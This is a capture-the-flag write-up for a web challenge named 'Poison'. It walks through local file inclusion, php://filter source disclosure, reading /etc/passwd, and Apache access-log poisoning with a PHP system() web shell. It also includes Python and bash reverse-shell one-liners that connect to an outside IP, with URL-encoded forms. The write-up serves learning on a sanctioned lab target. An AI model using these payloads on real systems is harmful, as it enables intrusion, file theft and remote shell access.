

# Poison

## Web: 350 Points

## Challenge

Someone is trying to leak all of LHC's user passwords, stop them before its too late!

[ [Start](http://challenges.laptophackingcoffee.org:666/) ]

Note: The server resets to default every 30 minutes. All progress will be lost

## Solution

```
Here I'm going to post the passwords for all of the LHC users. NOTE: I'm using this server as backup storage while reinstalling everything on my home machine. DO NOT DELETE FILES!
```

https://cyware.com/news/understanding-the-types-of-poisoning-attacks-ed39c024

```
$ nmap -sC -sV challenges.laptophackingcoffee.org -p 666
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-04 09:04 MDT
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 3.35 seconds
stark@kali:~/Desktop$ nmap -sC -sV challenges.laptophackingcoffee.org -p 666 -Pn
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-04 09:05 MDT
Nmap scan report for challenges.laptophackingcoffee.org (35.237.149.50)
Host is up (0.080s latency).
rDNS record for 35.237.149.50: 50.149.237.35.bc.googleusercontent.com

PORT    STATE SERVICE VERSION
666/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.67 seconds
```

LHC channels suggested Nikto, which is readily available in Kali.

https://en.wikipedia.org/wiki/Nikto_(vulnerability_scanner)

```
$ nikto -host challenges.laptophackingcoffee.org -p 666
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          35.237.149.50
+ Target Hostname:    challenges.laptophackingcoffee.org
+ Target Port:        666
+ Start Time:         2020-07-05 20:10:32 (GMT-6)
---------------------------------------------------------------------------
+ Server: Apache/2.4.25 (Debian)
+ Retrieved x-powered-by header: PHP/7.2.11-2+0~20181015120801.9+stretch~1.gbp8105e0
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.25 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ /test.php: PHP include error may indicate local or remote file inclusion is possible.
+ OSVDB-3233: /icons/README: Apache default file found.
+ OSVDB-3092: /test.php: This might be interesting...
+ 7865 requests: 0 error(s) and 9 item(s) reported on remote host
+ End Time:           2020-07-05 20:19:42 (GMT-6) (550 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Notice:
```
+ OSVDB-3092: /test.php: This might be interesting...
```

No results from Gobuster 2.3-small.txt and 2.3-medium.txt

Visiting /index.php brings up the same page:

http://challenges.laptophackingcoffee.org:666/index.php
https://pentesterlab.com/exercises/php_include_and_post_exploitation/course

Per nikto's suggestion, visit /test.php:

http://challenges.laptophackingcoffee.org:666/test.php
```
Notice: Undefined index: key in /var/www/html/test.php on line 2

Notice: Undefined index: page in /var/www/html/test.php on line 3

Warning: include(.php): failed to open stream: No such file or directory in /var/www/html/test.php on line 6

Warning: include(): Failed opening '.php' for inclusion (include_path='.:/usr/share/php') in /var/www/html/test.php on line 6
```

Look a little closer at the errors:
```
Notice: Undefined index: key in /var/www/html/test.php on line 2
```

What if a key variable is sent?
```
http://challenges.laptophackingcoffee.org:666/test.php?key=1
```

Website results:
```
Notice: Undefined index: page in /var/www/html/test.php on line 3

Warning: include(.php): failed to open stream: No such file or directory in /var/www/html/test.php on line 6

Warning: include(): Failed opening '.php' for inclusion (include_path='.:/usr/share/php') in /var/www/html/test.php on line 6
```

Now send a `page` variable:

http://challenges.laptophackingcoffee.org:666/test.php?key=1&page=2

web results:
```
Warning: include(2.php): failed to open stream: No such file or directory in /var/www/html/test.php on line 6

Warning: include(): Failed opening '2.php' for inclusion (include_path='.:/usr/share/php') in /var/www/html/test.php on line 6
```

Try using page = "index"
http://challenges.laptophackingcoffee.org:666/test.php?key=0&page=index

results:
```
Here I'm going to post the passwords for all of the LHC users. NOTE: I'm using this server as backup storage while reinstalling everything on my home machine. DO NOT DELETE FILES!
```

The page loads index.php.

Try sending its own index.php page:

http://challenges.laptophackingcoffee.org:666/test.php?key=0&page=http://challenges.laptophackingcoffee.org:666/index

```
Warning: include(): http:// wrapper is disabled in the server configuration by allow_url_include=0 in /var/www/html/test.php on line 6

Warning: include(http://challenges.laptophackingcoffee.org:666/index.php): failed to open stream: no suitable wrapper could be found in /var/www/html/test.php on line 6

Warning: include(): Failed opening 'http://challenges.laptophackingcoffee.org:666/index.php' for inclusion (include_path='.:/usr/share/php') in /var/www/html/test.php on line 6
```
http wrapper disabled.

http://challenges.laptophackingcoffee.org:666/test.php?key=0&page=../html/index

http://challenges.laptophackingcoffee.org:666/test.php?key=0&page=../../www/html/index

http://challenges.laptophackingcoffee.org:666/test.php?key=0&page=../../../var/www/html/index

```
Here I'm going to post the passwords for all of the LHC users. NOTE: I'm using this server as backup storage while reinstalling everything on my home machine. DO NOT DELETE FILES!
```

Add a null-byte at end of param

http://challenges.laptophackingcoffee.org:666/test.php?key=1&page=./index.php%00?

different error:
```
Warning: include(): Failed opening './index.php' for inclusion (include_path='.:/usr/share/php') in /var/www/html/test.php on line 6
```

```
Remember that you can URL-encode any character when you send an HTTP request. Substitute the character with an appropriate %XX sequence, where XX is the hexadecimal code of the character. The null character is coded with the %00 sequence. This sequence can be normally sent using HTTP, and the requested script will receive a string with the null character.

Suppose that the include (". /$file/data.php") construction is used in a script. Its programmer believes the PHP interpreter will include and execute only the DATA.PHP file. What will happen if you pass the script a null-terminated string as a file name, for example, file=temp.txt%00?
```

Attempts:
* http://challenges.laptophackingcoffee.org:666/test.php?key=0&page=../../www/html/index%00
* http://challenges.laptophackingcoffee.org:666/test.php?key=0&page=expect://ls

```
Warning: include(): Unable to find the wrapper "expect" - did you forget to enable it when you configured PHP? in /var/www/html/test.php on line 6
```

* http://challenges.laptophackingcoffee.org:666/test.php?key=0&page=php://input

```
Warning: include(): Invalid php:// URL specified in /var/www/html/test.php on line 6
```

### PHP Wrapper php://filter

* https://highon.coffee/blog/lfi-cheat-sheet/

* http://challenges.laptophackingcoffee.org:666/test.php?key=0&page=php://filter/convert.base64-encode/resource=test

```
PD9waHAKaWYobWQ1KCRfR0VUWydrZXknXSkgIT0gJzM1MzkzYzI0Mzg0Yjg4NjI3OTg3MTY2MjhmN2JjNmY0Jyl7CiAgICAgICAgJF9HRVRbJ3BhZ2UnXSA9ICRfR0VUWydwYWdlJ10gLiAnLnBocCc7Cn0KCmluY2x1ZGUgJF9HRVRbJ3BhZ2UnXTsKPz4K
```

Decode base64 in CyberChef:
```
PD9waHAKaWYobWQ1KCRfR0VUWydrZXknXSkgIT0gJzM1MzkzYzI0Mzg0Yjg4NjI3OTg3MTY2MjhmN2JjNmY0Jyl7CiAgICAgICAgJF9HRVRbJ3BhZ2UnXSA9ICRfR0VUWydwYWdlJ10gLiAnLnBocCc7Cn0KCmluY2x1ZGUgJF9HRVRbJ3BhZ2UnXTsKPz4K
```
php code:
```php
<?php
if(md5($_GET['key']) != '35393c24384b8862798716628f7bc6f4'){
        $_GET['page'] = $_GET['page'] . '.php';
}

include $_GET['page'];
?>
```

what is that md5 key?
```
35393c24384b8862798716628f7bc6f4
```

https://hashtoolkit.com/decrypt-md5-hash/35393c24384b8862798716628f7bc6f4
```
35393c24384b8862798716628f7bc6f4
poison
```

http://challenges.laptophackingcoffee.org:666/test.php?key=poison&page=../../../../../../../etc/passwd
```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/bin/false
```

http://challenges.laptophackingcoffee.org:666/test.php?key=poison&page=../../../../../../../proc/self/environ
```
Warning: include(/proc/10/environ): failed to open stream: Permission denied in /var/www/html/test.php on line 6

Warning: include(): Failed opening '../../../../../../../proc/self/environ' for inclusion (include_path='.:/usr/share/php') in /var/www/html/test.php on line 6
```

* https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-1
* http://challenges.laptophackingcoffee.org:666/test.php?key=poison&page=../../../../../../../../../../var/log/apache2/access.log
```
local.dev:80 64.44.80.252 - - [10/Jul/2020:22:33:42 +0000] "GET /test.php HTTP/1.1" 200 745 "-" "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)" local.dev:80 64.44.80.252 - - [10/Jul/2020:22:36:21 +0000] "GET /test.php?key=poison&page=../../../../../../../ HTTP/1.1" 200 500 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36"
```

```
$ nc challenges.laptophackingcoffee.org 666
GET /<?php phpinfo(); ?>
```
result:
```
HTTP/1.1 400 Bad Request
Date: Fri, 10 Jul 2020 22:41:16 GMT
Server: Apache/2.4.25 (Debian)
Content-Length: 301
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.4.25 (Debian) Server at local.dev Port 80</address>
</body></html>
```

Then visit the log file again:
* http://challenges.laptophackingcoffee.org:666/test.php?key=poison&page=../../../../../../../../../../var/log/apache2/access.log

This is the result. It worked!


```
GET /<?php $files = scandir(.); echo $files; ?>

GET /%3C%3Fphp%20%24files%20%3D%20scandir%28.%29%3B%20echo%20%24files%3B%20%3F%3E
```

```
$ nc secureapplication.example 80
GET /<?php system($_GET['cmd']);?>
```

```
python -c socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("35.184.126.242",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])
```

```
$ python3
Python 3.8.2 (default, Apr 27 2020, 15:53:34) 

>>> import urllib.parse

>>> urllib.parse.quote('python -c socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("35.184.126.242",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])')

'python%20-c%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%2235.184.126.242%22%2C4444%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22/bin/sh%22%2C%22-i%22%5D%29'
```

```
test.php?key=poison&page=../../../../../../../../../../var/log/apache2/access.log&cmd=
```

```
test.php?key=poison&page=../../../../../../../../../../var/log/apache2/access.log&cmd=python%20-c%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%2235.184.126.242%22%2C4444%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22/bin/sh%22%2C%22-i%22%5D%29
```

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
https://serverfault.com/questions/531047/netcat-issue-getaddrinfo-name-or-service-not-known
```
bash -i >& /dev/tcp/35.184.126.242/4444 0>&1

bash%20-i%20%3E%26%20/dev/tcp/35.184.126.242/4444%200%3E%261
```

```
test.php?key=poison&page=../../../../../../../../../../var/log/apache2/access.log&cmd=bash%20-i%20%3E%26%20/dev/tcp/35.184.126.242/4444%200%3E%261
```

https://www.urlencoder.org/

```
find / -type f -iname "flag*"
find%20%2F%20-type%20f%20-iname%20%22flag%2A%22
```

BurpSuite
```
GET /test.php?key=poison&page=../../../../../../../../../../var/log/apache2/access.log&cmd=find%20%2F%20-type%20f%20-iname%20%22flag%2A%22 HTTP/1.1
Host: challenges.laptophackingcoffee.org:666
User-Agent: Mozilla/5.0 <?php system($_GET['cmd']); ?> Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

```
/sys/devices/virtual/net/lo/flags
/sys/devices/virtual/net/eth0/flags
/home/www-data/important/flag.txt
 Gecko/20100101 Firefox/68.0"
```


```
cat /home/www-data/important/flag.txt

cmd=cat%20%2Fhome%2Fwww-data%2Fimportant%2Fflag.txt
```

```
 Gecko/20100101 Firefox/68.0"
local.dev:80 71.229.238.141 - - [11/Jul/2020:02:14:53 +0000] "GET /test.php?key=poison&page=../../../../../../../../../../var/log/apache2/access.log&cmd=find%20%2F%20-type%20f%20-iname%20%22flag%2A%22 HTTP/1.1" 200 1005 "-" "Mozilla/5.0 The flag is 352c340d641538ba5f8ad390ee82a4f556bcbb610538f1fa9aa7529d63c9ab515c90705cd6c1af1e5362e97942dbfe4fa4d0b804533625f4c30a9b86b8181d26
or is it.....? 
 Gecko/20100101 Firefox/68.0"
```

```
$ hash-identifier
--------------------------------------------------
 HASH: 352c340d641538ba5f8ad390ee82a4f556bcbb610538f1fa9aa7529d63c9ab515c90705cd6c1af1e5362e97942dbfe4fa4d0b804533625f4c30a9b

Possible Hashs:
[+] SHA-512
[+] Whirlpool

Least Possible Hashs:
[+] SHA-512(HMAC)
[+] Whirlpool(HMAC)
--------------------------------------------------
```

https://www.hackingarticles.in/apache-log-poisoning-through-lfi/

https://md5decrypt.net/en/Sha512/#answer
```
352c340d641538ba5f8ad390ee82a4f556bcbb610538f1fa9aa7529d63c9ab515c90705cd6c1af1e5362e97942dbfe4fa4d0b804533625f4c30a9b86b8181d26

gr8whiteshark
```


Resources 

* http://users.atw.hu/webexploit/0006.html
* https://security.stackexchange.com/questions/181704/exploit-lfi-bug-when-a-inc-php-is-appended-to-the-file-name
* https://hakin9.org/web-application-penetration-testing-local-file-inclusion-lfi-testing/
* https://highon.coffee/blog/lfi-cheat-sheet/